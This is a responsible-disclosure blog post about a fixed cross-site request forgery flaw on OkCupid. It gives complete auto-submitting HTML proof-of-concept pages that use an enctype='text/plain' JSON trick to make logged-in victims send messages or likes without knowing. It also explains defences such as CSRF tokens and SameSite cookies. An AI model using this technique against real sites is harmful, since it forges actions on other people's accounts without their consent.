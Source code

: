 ```yaml
---
title: how to be popular
author: yan
date: 2021-08-02
url: /csrf/

---
```


This is a quick blog post about a security vulnerability (now fixed) that allowed me to make anyone like or message a profile on okcupid.com simply by getting them to click a link on my website. In doing so, I used one of the most boring web application security issues (CSRF) combined with a somewhat interesting JSON type confusion.

Proof that it worked on a friend who agreed to help me with security testing and is definitely NOT a rabbit:

![Definitely not a rabbit](https://user-images.githubusercontent.com/549654/127944881-d9862841-fc49-459d-81fe-495e60e0e68b.png)

## A short recap of CSRF

The story, like many, began with me opening devtools and checking if websites were sending CSRF tokens alongside requests that require authentication, like sending messages to another user from your account. [CSRF](https://en.wikipedia.org/wiki/Cross-site_request_forgery) is an attack whereby an attacker sends a link to a victim which, when visited in the victim's browser, performs some action on behalf of the victim on a site that they are logged into. So for instance, if Bob is logged into Facebook, and Facebook doesn't have CSRF mitigations on the endpoint that deletes a user's account, then Alice can trick him into deleting his Facebook account by sending him a hidden link to `https://facebook.com/delete` (which is not the actual URL that deletes your FB account). 

In this case, I noticed that OkCupid messages are sent via POST requests to `https://www.okcupid.com/1/apitun/messages/send` with a JSON-encoded body like so:

```
{"receiverid": "123", "body": "sup"}
```

Conspicuously, there was no CSRF token sent in the request. CSRF tokens are a common way to mitigate these attacks by including an unguessable secret token as an additional HTTP header or POST parameter. The receiving endpoint only allows the request after validating the token; the idea being that while Bob's authentication cookies are sent automatically by his browser when he clicks on Alice's malicious link, Alice isn't able to include a valid CSRF token in the link and therefore the request will fail. 

## But what about the same-origin policy?

Web developers should be aware that the most fundamental security policy of the web is the same-origin policy: a website on one origin (AKA a scheme + host tuple) running in the browser should not be able to access data on a distinct origin unless the other origin explicitly allows it via a mechanism like [Cross-Origin Resource Sharing](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS) (CORS). You might be tempted to think that CSRF isn't possible if your website doesn't send a CORS header.

The problem is that certain types of requests don't care about CORS, and the rules for this are not obvious. For instance:

1. If your site tries to GET a cross-origin image using XHR, it's blocked by default.
2. If your site instead loads the image via an `img` tag instead, it works.
3. If your site sends a POST to another origin via the fetch API, it's blocked by default.
4. If your site instead sends the POST by clicking the submit button on an HTML `form` element via javascript, it works.

## Doing it in practice

So how do we create a webpage which sends a cross-origin POST request to the OkCupid message-sending endpoint? This was attempt #1:

```
<html>
  <body>
    <form id="form" method="post" action="https://www.okcupid.com/1/apitun/messages/send">
      <input style='display:none' name='foo' value='bar'>
      <input type="submit" value="Click me">
    </form>
    <script>
      window.onload = () => {form.submit()}
    </script>
  </body>
</html>
```

I visited this on a localhost server and got a very helpful error message after the form was auto-submitted:

![attempt
1](https://user-images.githubusercontent.com/549654/127945076-e050e29b-b620-414f-b470-367a08824e4a.png)

Interesting - it's not complaining that the request is initiated by some random origin, but rather that the POST body (`foo=bar`) is invalid JSON! Maybe we can fix that with a weird trick:

```
<html>
  <body>
    <form id="form" method="post" action="https://www.okcupid.com/1/apitun/messages/send">
      <input style='display:none' name='{"foo":"' value='bar"}'>
      <input type="submit" value="Click me">
    </form>
    <script>
      window.onload = () => {form.submit()}
    </script>
  </body>
</html>
```

My reasoning here was that the browser converts the `name` and `value` attributes on HTML `input` elements into `name=value` in the POST body that gets sent over the wire; so if `name` is `{"foo":"` and `value` is `bar"}`, this would become `{"foo":"=bar"}` which would be JSON-parsed into the bizarre-looking object `{foo: '=bar'}` without a problem. With a rush of hope unfelt since before the pandemic, I loaded this up in my browser and saw:

![attempt
2](https://user-images.githubusercontent.com/549654/127944894-831c314c-590c-47a8-93a5-b80aa03ce663.png)

... the exact same error. But this time it was because my beautiful POST body had been URL-encoded to become the ugly-but-safe string `%7B%22foo%22%3A%22%3Dbar%22%7D`. If only there were a way to tell the browser to not encode this form body!

Luckily the W3C deities gave us exactly such a gift in the form (pun intended) of the `enctype` [attribute](https://developer.mozilla.org/en-US/docs/Web/API/HTMLFormElement/enctype). 

```
<html>
  <body>
    <form id="form" method="post" enctype="text/plain" action="https://www.okcupid.com/1/apitun/messages/send">
      <input style='display:none' name='{"foo":"' value='bar"}'>
      <input type="submit" value="Click me">
    </form>
    <script>
      window.onload = () => {form.submit()}
    </script>
  </body>
</html>
```

With the help of `enctype="text/plain"`, the payload is finally sent in its true form (pun intended again) of `{"foo":"=bar"}`:

![attempt 3](https://user-images.githubusercontent.com/549654/127944886-2a7199f1-425e-4bd0-87c4-3076c56061f1.png)

Putting it all together, the following HTML will automatically send a message that says "I am a rabbit" to the fake userID 123. (Finding out someone's real userID is left as an exercise to the reader.)

```
<html>
  <body>
    <form id="form" method="post" action="https://www.okcupid.com/1/apitun/messages/send" enctype="text/plain">
      <input style='display:none' name='{"foo":"' value='", "receiverid":"123", "body":"i am a rabbit", "source":"desktop_global", "service":"other"}'>
      <input type="submit" value="Click me">
    </form>
    <script>
      window.onload = () => {form.submit()}
    </script>
  </body>
</html>
```

Note that the POST body becomes `{"foo":"=", "receiverid":"123", "body":"i am a rabbit","source":"desktop_global", "service":"other"}`. Because the browser inserts a `=` between the name and value attributes, this gets set to the value of a dummy key, `foo`, which okcupid fortunately ignores. 

I uploaded this HTML to my website, visited the link, and voila:

![finally](https://user-images.githubusercontent.com/549654/127944883-6232b92f-589f-41e3-b25f-a4bd1e3df794.png)

It works! ... Or would work if I had finished my test profile so I could send messages to other users.

Too lazy to do this myself, I sent my CSRF link with my own userID filled in to some friends. Lo and behold, my OkCupid test profile was seranaded by a series of messages that they didn't mean to send me.

![beloved](https://user-images.githubusercontent.com/549654/127944878-d4ad3456-8b26-4248-8a3a-2970aca6703a.png)

I briefly felt very popular, which made it all worthwhile.

## Parting thoughts

Besides making other users unknowingly message your OkCupid profile or someone else's profile of your choosing, I found you could use essentially the same vulnerability to get other users to "like" your profile. Obviously you could abuse this in order to match with anyone you could trick into clicking a link, or you could spam the link to a bunch of people to increase your profile's rankings in whatever mysterious algorithm OkCupid uses to suggest people.

It also occurred to me that if I redirected my website to the CSRF link that automatically sent a message to me, I could see the OkCupid profiles of my website visitors who were logged into okcupid.com, which would make for an intense web analytics tool.

The obvious fix is for OkCupid to require a CSRF token for these authenticated endpoint, but my attack also relied on the fact that these endpoints were happy to accept POSTs with `content-type: text/plain` even though they actually expected JSON. This made me curious if other sites were making the same mistake, so I quickly scraped some of the Alexa top sites looking for requests to endpoints containing `api` or `json`.

Once I had a list of a few hundred endpoints, I sent each of them a POST with `content-type: text/plain` and body `{"foo":"bar"}`. 87 out of 215 of these endpoints didn't error, and many appeared to return JSON responses indicating success. Granted most of these are probably not authenticated endpoints and some of them may need to accept non-JSON text, but this suggests to me that developers should be careful accepting `text/plain` inputs on endpoints that parse JSON.

**UPDATE:** Multiple folks have kindly pointed out that setting the
`SameSite` [cookie
attribute](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie/SameSite) in modern browsers to `Strict` effectively
prevents this attack and most other CSRFs. The behavior with `SameSite=Lax` is somewhat
confusing; because submitting an HTML form triggers navigation, initially I assumed
cross-origin cookies would be sent in this case. However, with the help of [Simon Willison](https://twitter.com/simonw/status/1422356089023078419), I found that this is actually not the case if `Lax` is explicitly set. But here's the surprise: if a `SameSite` attribute is NOT explicitly set, then Chrome will send the cross-origin cookie in POST requests [that occur within 2 minutes](https://twitter.com/bcrypt/status/1422370774896177154) of when the cookie was set, even though `Lax` is now the default in Chrome!

### Disclosure timeline

This was reported to OkCupid in April 2021. According to their team, it was fixed without delay which prevented exploitation of the bug. I would like to thank their security team for the bounty and permission to share this blog post.
